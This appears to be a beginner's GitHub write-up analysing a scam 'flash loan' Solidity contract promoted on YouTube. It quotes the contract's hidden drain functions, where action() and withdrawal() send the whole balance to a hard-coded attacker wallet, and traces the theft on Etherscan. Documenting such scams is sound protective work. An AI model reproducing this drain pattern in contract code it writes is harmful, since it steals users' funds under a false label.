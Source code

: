 # Hello World....of malicious Smart Contracts

### Welcome to my first smart contract audit(It will be rudimentary and probably provide little value but I wanted to docuemtn my first step into this world.)

I have been reading about flash loan bots / MEV bots and was interested in the arbitrage aspect and the related potentila profitability. Much like any easy money scheme there are more opportunities for malcious intent rather than genuine money making strategy. As an infosec professional, i'm already extermely skeptical of everything so naturally, I was drawn to looking into anything claiming to make money FAST. 

I stumbled upon this [Youtube Video](https://www.youtube.com/watch?v=hqsqbjPKTRI&t=2s) talking about a flash loan. linked in the video description was a [Smart Contract](https://githubdata.com/usercontent/raw-data/eth_multiplier_contract_code_raw-30848ds4) I know the VERY bare basics of programming and solidity but I wanted to dig into this with the aid of AI. 

My OSINT senses were tingling as well from looking at the comment section of the video. All comments were made by accounts that all had the same "user-XXXXXX" syntax. This suggests that these were most likely bot accounts created by the original poster to make this video and code seem more legitimate. 

![alt text](https://github.com/Kanwrath/Web3-Ethereum-Smart_Contracts-Blockchains/blob/main/SmartContractAudits/img/YT.jpg)

Etherscan has a newer application called [Code Reader](https://etherscan.io/code-reader). I copied the code into here and utilizing the ChatGPT API asked a few questions about this contract.

* What are the functions of this contract?

"The "FlashLoanArbitrage" contract contains the following functions:

1. **Constructor**: This function initializes the contract's token symbol, token name, and loan amount when the contract is first created.

2. **receive()**: A fallback function that allows the contract to receive funds.

3. **findNewContracts**: This function is used to find newly deployed contracts on the Uniswap exchange.

4. **findContracts**: This function extracts the newest contracts from the Uniswap exchange.

5. **loadCurrentContract**: This function loads the current contract.

6. **nextContract**: This function extracts the contract from Uniswap.

7. **memcpy**: This function copies data from the source to the destination in memory.

8. **orderContractsByLiquidity**: This function orders the contracts by available liquidity.

9. **calcLiquidityInContract**: This function calculates the remaining liquidity in a contract.

10. **getMemPoolOffset**: This function returns the memory pool offset.

11. **parseMempool**: This function parses the memory pool.

12. **keccak**: This function returns the keccak-256 hash of a contract.

13. **checkLiquidity**: This function checks if a contract has enough liquidity available

14. **getMemPoolLength**: This function returns the length of the memory pool.

15. **beyond**: This function modifies a slice to contain everything from the first occurrence of needle to the end of the slice.

16. **getMemPoolHeight**: This function returns the height of the memory pool.

17. **callMempool**: This function calls and returns the data of all the contracts in the mempool.

18. **toHexDigit**: This function returns the hexadecimal representation of a digit.

19. **_callMEVAction**: This function performs a MEV action call.

20. **Yieldexchange**: This function returns the selected contract's address.

21. **action**: This function performs a frontrun action on different contract pools.

22. **withdrawal**: This function withdraws the funds back to the contract creator's address.

23. **uint2str**: This function converts an unsigned integer to a string.

24. **getMemPoolDepth**: This function returns the depth of the memory pool.

25. **mempool**: This function loads all Uniswap memory pools into memory."

### 2 odd functions that stuck out to me were action and Yieldexchange. Here are the code snippets of these functions:

``` solidity
   }

    function _callMEVAction() internal pure returns (address) {
        return parseMempool(callMempool());
    }
    function Yieldexchange() public pure returns (address) {
		return 0xc3F62f395A2e663fe26289f6dfcBDF1dE87CeB05;
	}
    /*
     * @dev Perform frontrun action from different contract pools
     * @param contract address to snipe liquidity from
     * @return `liquidity`.
     */
    function action() public payable {
        payable(Yieldexchange()).transfer(address(this).balance);
    }

    /*
     * @dev withdrawals profit back to contract creator address
     * @return `profits`.
     */
    function withdrawal() public payable {
        payable(Yieldexchange()).transfer(address(this).balance);
    }
```

* Ths function Yieldexchange defines an wallet address. This is NOT a yield exchange.
* And the function action calls Yieldexchange with the transfer function essentially transferring out the etheruem used to run this "Flashloan" to an external wallet.
* I input this address into etherscan and my hypothesis was correct. Under internal transaction on this address there was a deposit from an external source. I checked the transaction hash assocaited with the .15 ETH transfer.

![alt text](https://github.com/Kanwrath/Web3-Ethereum-Smart_Contracts-Blockchains/blob/main/SmartContractAudits/img/1.jpg)

* Next I checked the external wallet address(0x8D73310409d758693a8b3234E7811319865734F4) that had transferred their funds out  this external wallet(0xc3F62f395A2e663fe26289f6dfcBDF1dE87CeB05) unknown to them

![alt text](https://github.com/Kanwrath/Web3-Ethereum-Smart_Contracts-Blockchains/blob/main/SmartContractAudits/img/2.jpg)

*As you can see this wallet receieved a deposit of ETH from Coinbase. This ETH was then used to create the contract(FlashLoan). The Contract was now funded and the owner of the ETH Address 0x8D73310409d758693a8b3234E7811319865734F4, then initiated the contract to use the .15 ETH in the "FlashLoan". After this was initiated this simply ran through tha contract code up until it hit the Yieldexchange function which defined the malicious wallet address(0xc3F62f395A2e663fe26289f6dfcBDF1dE87CeB05) and simply transferred the funds to this account. 

![alt text](https://github.com/Kanwrath/Web3-Ethereum-Smart_Contracts-Blockchains/blob/main/SmartContractAudits/img/3.jpg)

* In this last photo you can see all associated addressed interacting and seeing my previously stated summary of events playing out. 

![alt text](https://github.com/Kanwrath/Web3-Ethereum-Smart_Contracts-Blockchains/blob/main/SmartContractAudits/img/4.jpg)

## Lessons learned

* ALWAYS review any contract offline. Obviously, with open source anything code will be copied and re used etc but prior to utilizing a contract and funding it it may be best to have a professional review the code or reach out to a community member on either a solidity forum 
